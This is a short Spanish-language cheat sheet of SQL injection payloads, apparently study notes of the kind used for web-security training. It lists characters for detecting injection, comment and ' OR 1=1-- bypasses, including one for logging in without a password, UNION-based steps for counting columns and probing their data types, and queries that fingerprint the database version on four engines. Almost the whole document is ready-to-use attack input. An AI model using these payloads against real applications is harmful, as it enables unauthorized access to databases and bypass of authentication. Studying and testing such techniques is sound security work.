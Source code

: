 ## ATAQUE: SQL INJECTION

#### IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

#### BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.\
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.\
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.\
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

#### UNION ATTACK

pre-req: numero de columnas y data type de cada columna

_COMO SABER EL NUMERO DE COLUMNAS ?

metodo_1: ' ORDER BY 1--\
metodo_2: ' UNION SELECT NULL--

_COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL--\
' UNION SELECT NULL,'a',NULL,NULL-- | se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

_IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

  NOTA: debe ser UNION attack. numero de columnas se respeta.

Microsoft >> SELECT @@version \
MySQL >> SELECT @@version \
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance \
PostgreSQL >> SELECT version()


